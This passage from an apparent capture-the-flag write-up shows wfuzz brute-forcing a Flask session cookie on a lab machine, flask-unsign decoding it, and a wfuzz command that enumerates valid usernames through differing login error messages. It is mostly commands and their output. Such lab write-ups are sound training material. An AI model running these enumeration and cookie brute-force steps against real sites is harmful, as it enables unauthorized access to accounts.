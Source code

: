     Target: http://10.10.11.160:5000/dashboard
    Total requests: 10177

    ===================================================================
    ID           Response   Lines    Word     Chars       Payload                                                                                                                                           
    ===================================================================

    000001208:   200        82 L     144 W    2444 Ch     "eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.YkQbNg.aeOcEqo5Lu6G3McCv1lriOegoOY"                                                             

    Total time: 361.2894
    Processed Requests: 10177
    Filtered Requests: 10176
    Requests/sec.: 28.16854



It finds one. That one decodes to:



    oxdf@hacky$ flask-unsign --decode --cookie "eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.YkQbNg.aeOcEqo5Lu6G3McCv1lriOegoOY"
    {'logged_in': True, 'username': 'blue'}



#### Brute Username Using Login Oracle

I noted during enumeration that the site returned slightly different
messages for an invalid user and invalid credentials for a real user. I
can use that to find a valid username to forge a cookie for.

I'll use `wfuzz` to send login requests for all the users in the
[SecLists](https://github.com/danielmiessler/SecLists) `names.txt`, and
watch for any that don't respond "Invalid credentials". There's one hit:



    oxdf@hacky$ wfuzz -u http://10.10.11.160:5000/login -d "username=FUZZ&password=junkpassword" -w /usr/share/seclists/Usernames/Names/names.txt --hs "Invalid credentials"
    ********************************************************
    * Wfuzz 2.4.5 - The Web Fuzzer                         *
    ********************************************************

    Target: http://10.10.11.160:5000/login
    Total requests: 10177

    ===================================================================
    ID           Response   Lines    Word     Chars       Payload
    ===================================================================

    000001208:   200        68 L     110 W    2034 Ch     "blue"

    Total time: 195.6524
    Processed Requests: 10177
    Filtered Requests: 10176
    Requests/sec.: 52.01569


